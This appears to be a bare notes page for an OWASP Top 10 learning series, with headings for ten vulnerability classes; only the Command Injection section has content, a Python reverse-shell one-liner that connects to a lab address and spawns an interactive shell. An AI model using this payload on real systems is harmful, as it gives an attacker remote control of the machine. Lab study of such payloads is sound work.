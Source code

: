 # OWASP TOP 10

## Day  1 : Command Injection

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.183",3301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

## Day  2 : Broken Authentication

## Day  3 : Sensitive data exposure

## Day  4 : XML External Entity

## Day  5 : Broken Access Control

## Day  6 : Security Misconfiguration

## Day  7 : Cross-site Scripting

## Day  8 : Insecure Deserialization

## Day  9 : Components With Known Vulnerabilities

## Day 10 : Insufficient Logging and Monitoring
